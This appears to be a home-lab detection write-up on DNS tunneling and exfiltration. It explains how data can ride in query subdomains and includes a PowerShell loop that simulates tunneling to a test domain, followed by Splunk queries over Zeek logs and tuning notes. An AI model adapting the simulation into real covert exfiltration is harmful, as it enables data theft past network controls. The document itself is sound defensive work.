

# DNS Tunneling / Exfiltration — T1071.004

**Tactic:** Command and Control / Exfiltration · **MITRE ATT&CK:** [T1071.004](https://attack.mitre.org/techniques/T1071/004/) (also relevant: [T1048](https://attack.mitre.org/techniques/T1048/))

This is the lab's first **network-side** detection — built on Zeek `dns.log` from the sensor,
not Windows event logs. It pairs with the four endpoint detections to give coverage across both
data sources.

## Technique

DNS is allowed out of virtually every network, which makes it an ideal covert channel. An
attacker who controls a domain's authoritative nameserver can encode data into the subdomains
of queries (`<encoded-data>.attacker.com`) — DNS's own recursive resolution delivers every
lookup straight to their server. Exfiltration rides outbound in the subdomains; C2 commands
ride back in the DNS answers (often TXT records). It's slow but nearly unblockable.

## The attack

Simulated from WS01 — a sustained trickle of lookups to a controlled domain, each with a long
random subdomain standing in for a chunk of encoded data:

```powershell
1..150 | ForEach-Object {
  $rand = -join ((48..57)+(97..122) | Get-Random -Count 45 | ForEach-Object {[char]$_})
  Resolve-DnsName -Name "$rand.tunnel-test.com" -Type A -ErrorAction SilentlyContinue
  Start-Sleep -Milliseconds 200
}
```

The 200ms spacing matters: a rapid burst gets rate-limited by the Windows DNS client (and
dropped by the virtual sniffer), so sustained, spaced queries are both more realistic and more
reliably captured.

## The evidence

Zeek writes every DNS lookup to `dns.log`, forwarded to the `zeek` index. The signal isn't any
single query — it's the *pattern*: one parent domain receiving many unique subdomains.
Legitimate traffic queries a domain repeatedly with the *same* handful of names; tunneling
generates a unique subdomain every query because each carries different data.

## The detection

```spl
index=zeek source=*dns*
| rex field=query "\.(?<parent>[^.]+\.[^.]+)$"
| search parent!="in-addr.arpa" parent!="corp.lab"
| stats dc(query) as unique_subdomains values(id.orig_h) as hosts by parent
| where unique_subdomains > 10
| sort -unique_subdomains
```

`dc(query)` counts distinct subdomains per parent domain. A parent with dozens of unique
subdomains from internal hosts is a channel, not a website.



## False positives and tuning

- **Reverse DNS (`in-addr.arpa`)** generates many unique "subdomains" (every PTR lookup is a
  unique IP) — excluded.
- **The internal AD domain (`corp.lab`)** produces lots of SRV/service-record lookups — excluded.
- **CDNs (e.g. `microsoft.com`, `trafficmanager.net`)** legitimately spread across many short
  subdomains and can rival the tunneling count. The stronger tuning combines the count with
  **average subdomain length** — tunneling subdomains are long and random; CDN subdomains are
  short words:

  ```spl
  index=zeek source=*dns*
  | rex field=query "^(?<subdomain>[^.]+)\.(?<parent>[^.]+\.[^.]+)$"
  | search parent!="in-addr.arpa" parent!="corp.lab"
  | eval sublen=len(subdomain)
  | stats dc(query) as unique_subdomains avg(sublen) as avg_sublen by parent
  | where unique_subdomains > 8 AND avg_sublen > 25
  ```

  Combining two weak signals (count + length) produces a strong one: tunneling clears both,
  CDNs clear only the count. This is the version to use for the automated **alert**; the
  count-only version is fine for a human-reviewed dashboard, where context handles the CDN noise.

## Limitation — capture loss

The sensor uses VMware promiscuous mode, not a hardware tap, so it drops packets under load
(measured ~10% via Zeek `capture_loss.log`, higher on bursts). A rapid attack can lose enough
packets that the detection misses the threshold — which is why the test traffic is sustained and
spaced. This is a deliberate demonstration that **network sensors see traffic, not truth**, and
why endpoint telemetry is the reliable backbone and network the complement. See
[`../docs/network-visibility.md`](../docs/network-visibility.md).

## Alert configuration

Scheduled every 5 minutes, search window last 5 minutes, trigger once when results > 0,
throttle 3600s, shared in app.
